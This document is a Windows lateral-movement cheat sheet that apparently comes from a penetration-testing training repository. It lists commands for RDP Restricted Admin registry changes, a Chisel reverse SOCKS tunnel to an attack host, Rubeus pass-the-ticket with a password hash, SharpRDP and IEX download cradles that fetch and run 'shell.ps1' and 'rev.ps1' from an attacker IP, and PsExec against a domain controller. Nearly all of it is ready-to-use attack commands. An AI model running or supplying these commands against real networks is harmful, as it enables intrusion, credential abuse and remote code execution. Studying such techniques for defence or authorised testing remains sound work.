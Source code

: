 ## Windows Lateral Movement Introduction and Command Line cheatsheet.

> Lateral movement refers to the techniques we use to move through a network after gaining initial access. 
> By understanding lateral movement, attackers and defenders can better navigate and secure networks. 
> This knowledge allows defenders to implement more effective security measures and helps attackers identify and exploit weaknesses in network defenses, ultimately leading to a more robust and resilient security posture. 


### RDP Commands

- Open Remote Desktop Connection client (Windows)

	`C:\> mstsc.exe` 

- Open Remote Desktop Connection client in Restricted Admin mode 


	`C:\> mstsc.exe /restrictedAdmin` 

	

- Query, Disable, and Enable DisableRestrictedAdmin value in LSA settings. 

	```
	C:\> reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin 
	
	C:\> reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 0 /t REG_DWORD 
	
	C:\> reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v DisableRestrictedAdmin /d 1 /t REG_DWORD
	
	```

- Chisel Server & Client. 

	```
	$ ./chisel server --reverse --port 9999
	
	C:\> chisel.exe client "ATTACK HOST":"PORT" R:socks
	
	```

- Rubeus Pass the Ticket 

	```
	PS C:\> .\Rubeus.exe createnetonly /program:powershell.exe /show 
	
	PS C:\> .\Rubeus.exe asktgt /user:"USER" /rc4:"HASH" /domain:targetdomain.local /ptt
	
	``` 
	

- Execute Powershell command on Windows Server using SharpRDP

	```
	C:\> SharpRDP.exe computername=dc01 command="powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://"ATTACK-IP:PORT"/shell.ps1')" username=inlanefreight\"USER" password="PASS"

	PS C:\> IEX(IWR -Uri 'http://"ATTACK IP:PORT"/rev.ps1' -OutFile C:\>rev.ps1 -UseBasicParsing);C:\>rev.ps1
	 
	```

### SMB Commands


- Execute command on remote server using PsExec

	`PS C:\> .\PsExec.exe \\DC01 -i -s -u INLANEFREIGHT\'USER' -p 'PASS' cmd`
